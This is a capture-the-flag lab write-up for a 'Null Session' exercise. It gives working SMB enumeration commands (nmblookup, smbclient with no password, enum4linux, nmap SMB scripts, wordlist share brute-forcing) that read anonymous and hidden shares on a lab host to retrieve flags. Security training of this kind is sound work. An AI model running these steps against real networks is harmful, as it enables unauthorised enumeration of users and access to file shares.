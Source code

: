 # Null Session

### Flag 1

Display info about windows machine<br>
-A IP_ADDRESS
```
nmblookup -A demo.ine.local
```

File server active

![1.1](./imgs/1.1.png)

Same as windows command:
```
nbtstat -A demo.ine.local
```

Enumerate file shares<br>
-L list services<br>
-N no password
```
smbclient -L //demo.ine.local -N
```

![1.2](./imgs/1.2.png)

Access public share and get flag
```
smbclient //demo.ine.local/public -N
cd .hidden
get flag_1
```

![1.3](./imgs/1.3.png)

Same as windows command:
```
NET VIEW demo.ine.local
NET USE \\demo.ine.local\$IPC '' /u:''
```

### Flag 2

-A fully enumerate target
```
enum4linux -A demo.ine.local
```

or

-S shares<br>
-U users<br>
-P password policy
```
enum4linux -S demo.ine.local
enum4linux -U demo.ine.local
enum4linux -P demo.ine.local
```
or 

```
nmap demo.ine.local --script=smb-enum-shares
nmap demo.ine.local --script=smb-enum-users
```

Users:

![2.1](./imgs/2.1.png)

Password policy:

![2.2](./imgs/2.2.png)

Michael and Raymond don't show up here so they're non-browsable

![2.3](./imgs/2.3.png)

Access denied for Raymond's share

Access Michael's share and get flag
```
smbclient //demo.ine.local/michael -N
cd dir
cd flag_2
get -
```

![2.4](./imgs/2.4.png)

### Flag 3

Brute force share enumeration
-s SHARE_LIST 
```
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local
```

hidden share "shadow1" found

![3.1](./imgs/3.1.png)

```
smbclient //demo.ine.local/shadow1 -N
get flag_3 -
```

![3.2](./imgs/3.2.png)